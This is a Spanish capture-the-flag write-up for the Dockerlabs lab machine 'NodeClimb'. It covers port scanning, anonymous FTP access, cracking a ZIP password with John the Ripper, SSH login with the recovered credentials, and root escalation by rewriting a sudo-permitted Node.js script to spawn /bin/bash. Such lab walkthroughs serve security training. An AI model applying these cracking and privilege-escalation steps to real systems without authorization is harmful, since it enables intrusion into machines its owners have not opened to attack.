# Write-up: 

- **Nombre de la máquina:** `NodeClimb` 
- **Plataforma:** `Dockerlabs` 
- **IP:** `172.17.0.2` 
- **SO:** `Linux` 
- **Dificultad:** `Fácil`

---

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.

```
 ping 172.17.0.2
```
Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux. 
<p align="center">
    
</p>
 
#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 172.17.0.2 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión       | Notas                                                 |
| ------ | -------- | ------------- | ----------------------------------------------------- |
| 21     | ftp      | vsftpd 3.0.3  | Iniciamos por aquí.<br>Posible sesión nula            |
| 22     | ssh      | OpenSSH 9.2p1 | A la espera de credenciales segundo vector de ataque. |

<p align="center">
    
</p>

Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o clave rsa. En este caso carecemos de información al respecto así que lo más productivo es explorar el puerto :21 por pudieron inicia una `session null`

---

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### Puerto 21 ( FTP)

Probamos a inciar sesión con credeciales por defecto:

```
ftp 172.17.0.2
```

Name: `anonymous`
Password: `anonymous`

<p align="center">
    
</p>

Tras listarlo encontramos un archivo llamativo: 
	`secretitopicaron.zip`
Que descargamos a nuestra máquina local  con `get`

```
get secretitopicaron.zip
```

<p align="center">
    
</p>

##### 1.Extracción del hash

`zip2john` convierte el ZIP en un hash en formato texto que `John` entiende.

```
zip2john secretitopicaron.zip > zip_hash.txt
```

<p align="center">
    
</p>


##### 2. Crackeamos con John

Utilizamos `John` para crackear la contraseña del archivo usando `rockyou`

```
john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt
```

<p align="center">
    
</p>

##### 3. Comprobamos el resultado

Utilizamos `show` para comprobar el resultado de `john`

```
john --show zip_hash.txt

```
<p align="center">
    
</p>

- **Hallazgo** :
	Contraseña: `password1`

##### 4.Descomprimimos el archivo. zip

Para descomprimir el archivo .zip utilizamos la herramienta `unzip`

```
unzip secretitopicaron.zip
```

<p align="center">
    
</p>

-  **Hallazgo** :
	`mario:laKontraseñAmasmalotaHdelbarrioH`


---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

Con las credenciales descubiertas en el servicio `ftp` con `john`  nos conectamos al servicio ssh:
```
	ssh mario@172.17.0.2`
```


<p align="center">
    
</p>

---

## 4. ESCALADA DE PRIVILEGIOS

Una vez dentro, el objetivo es elevar los privilegios del usuario actual al de `root`.

### 4.1. Enumeración Interna

Se realizan comprobaciones básicas y se buscan posibles vectores de escalada.

#### Comprobaciones del sistema:

¿Qué usuario somos?
`whoami`

<p align="center">
    
</p>

¿A qué grupo pertenezco? `id`

<p align="center">
    
</p>

¿Qué usuario hay en el sistema?
¿Qué usuario tienen una shell asignada?

```
cat /etc/passwd | grep sh
```

<p align="center">
    
</p>

Revisamos los directorios de los usuarios:
`mario`:

<p align="center">
    
</p>
#### Búsqueda del Vector de Escalada:

- **Permisos Sudo:** ¿Qué comandos podemos ejecutar como otro usuario (o `root`)?
    ```
    sudo -l
    ```
     vemos que el usuario `mario`  puede ejecutar con sudo el script : `/home/mario/script.js` 
<p align="center">
    
</p>

- Comprobamos los permisos del script: 
```
	 ls -l /home/mario/script.js
```
	
<p align="center">
    
</p>
Tenemos permisos sobre el con el usuario `mario`

- Abrimos un archivo nano donde introduciremos un código malicioso que nos elevará privilegios al ejecutar el script. Guardamos. 

```
nano /home/mario/script.js
```
<p align="center">
    
</p>


```
 // Este código lanzará /bin/bash como root
require('child_process').spawn('/bin/bash', {
  stdio: [0, 1, 2],
  shell: true
});
```


### 4.2. Explotación y Escalada a Root

- Ejecutamos el script sudo `/usr/bin/node /home/mario/script.js` y nos elevamos a `root`. 

<p align="center">
    
</p>


SOMOS ROOT🚀


